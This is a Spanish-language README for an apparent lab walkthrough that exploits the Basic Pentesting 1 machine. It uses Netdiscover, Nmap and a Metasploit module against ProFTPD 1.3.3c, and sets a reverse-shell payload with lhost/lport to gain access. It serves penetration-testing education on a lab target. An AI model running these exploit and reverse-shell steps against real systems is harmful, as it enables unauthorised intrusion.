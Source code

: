 >[!NOTE]
>TEST
# 🚀 FTP Exploitation - Basic Pentesting 1 

## 📚 Descripción
En esta documentación se detalla el proceso de explotación de la máquina BasicPentesting1, un sistema Linux con un servicio **FTP (ProFTPD 1.3.3c)** activo. A través de diferentes herramientas de pentesting, se identifican posibles vulnerabilidades y se utiliza **Metasploit** para su explotación.

El procedimiento incluye:

- **Identificación de la IP** de la máquina objetivo con **Netdiscover**.
- **Escaneo de puertos y detección de servicios** con **Nmap**.
- **Búsqueda de exploits** disponibles en **Metasploit**.
- **Configuración del exploit y payload** para obtener acceso al sistema.
- **Ejecución del exploit** y validación del acceso obtenido.

## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Máquina objetivo:** Basic Pentesting 1 (Linux)
- **Máquina atacante:** Kali Linux 
- **Herramientas necesarias:** Netdiscover, Nmap, Metasploit 

## 🎯 Uso
Identificar la IP de la máquina 
- Ejecuta Netdiscover para encontrar la dirección IP de la máquina objetivo.
- Asegúrate de que la máquina Basic Pentesting 1 y tu Kali Linux estén en la misma red Red NAT.

```
IP: 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/netdiscover.png" alt="netdiscover" style="border-radius: 10px;">
</p>

<br>

Para identificar la versión del servicio FTP y el puerto en el que está escuchando, ejecuta Nmap sobre la máquina BasicPentesting1.
```
sudo nmap -sV 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/nmap.png" alt="nmap" style="border-radius: 10px;">
</p>

<br>

Para comprobar si la versión de ProFTPD 1.3.3c es explotable, ejecuta Metasploit y realiza una búsqueda de exploits disponibles.
```
msf6 > search ProFTPD 1.3.3c
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/search.png" alt="search" style="border-radius: 10px;">
</p>

<br>

Una vez identificado un exploit para **ProFTPD 1.3.3c**, sigue estos pasos para configurarlo y buscar payloads compatibles.
Si el comando search ProFTPD 1.3.3c muestra un exploit válido.
```
msf6 > use 0
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/use.png" alt="use" style="border-radius: 10px;">
</p>

<br>

Después de seleccionar el exploit, verifica las opciones necesarias.
```
msf6 > show options
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_options.png" alt="show_options" style="border-radius: 10px;">
</p>

<br>


Para ver los payloads compatibles con el exploit.
```
msf6 > show payloads
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_payload.png" alt="show_payload" style="border-radius: 10px;">
</p>

<br>

Selecciona el payload adecuado para conseguir una conexión inversa.
```
msf6 > set payload payload/cmd/unix/reverse
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/payload.png" alt="payload" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit y el payload adecuado, configura las opciones necesarias.
Ejecuta los siguientes comandos dentro de Metasploit.
```
msf6 > set rhosts 192.168.10.11
msf6 > set rport 21
msf6 > set lhost 192.168.10.4
msf6 > set lport 2222
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/configuracion.png" alt="configuracion" style="border-radius: 10px;">
</p>

<br>


Una vez configuradas las opciones, lanza el exploit.
```
msf6 > run
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/run.png" alt="run" style="border-radius: 10px;">
</p>

<br>

A través del uso de herramientas como Netdiscover, Nmap y Metasploit, hemos logrado obtener acceso al sistema objetivo mediante una conexión inversa.
